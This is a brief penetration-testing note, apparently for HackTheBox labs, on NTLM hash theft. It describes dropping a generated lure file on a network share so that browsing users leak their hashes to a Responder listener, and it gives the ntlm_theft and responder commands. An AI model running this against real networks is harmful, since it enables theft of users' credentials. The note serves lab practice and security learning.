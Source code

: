 # NTLM Hash Theft

{% embed url="https://github.com/Greenwolf/ntlm_theft" %}

You can drop a file somewhere in the filesystem (for example a network share). If the user browses to the directory where that file is, then the file will automatically create a network request to your computer (which is running Responder and will capture the NTLM hash).

Generating the file:

```
python3 ntlm_theft.py --generate url --server 10.10.14.42 --filename somefilename
```

Run responder like this (choose the correct interface. In this case it's tun0 for hackthebox):

```
sudo responder -I tun0 --analyze
```

